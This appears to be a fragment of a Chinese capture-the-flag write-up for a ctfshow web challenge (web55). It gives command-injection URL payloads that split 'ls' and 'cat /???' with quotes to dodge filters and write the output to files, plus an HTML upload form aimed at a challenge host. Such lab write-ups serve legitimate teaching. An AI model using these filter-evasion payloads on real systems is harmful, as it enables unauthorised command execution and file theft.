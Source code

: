 ***\*Payload：\*******\*?url=l’'s / | tee 1.txt\**** ***\*?url=c’'at /??? | tee 2.txt\**** 

（便于理解）

### 特殊方法：

#### 1.上传文件

先写一个叫文件的php代码上交给ctfshow的这个web55

再如图这样去写

然后最重要的是写ls或者cat flag.php时前面要空一格，有时候又不要，抽象

![img](https://raw.githubusercontent.com/odiws/blog-img/main/wps5.jpg)

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://af404f5c-695a-42e7-b599-6e9abc26818e.challenge.ctf.show/" method="post" enctype="multipart/form-data">
    &lt;!&ndash;链接是当前打开的题目链接&ndash;&gt;
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```
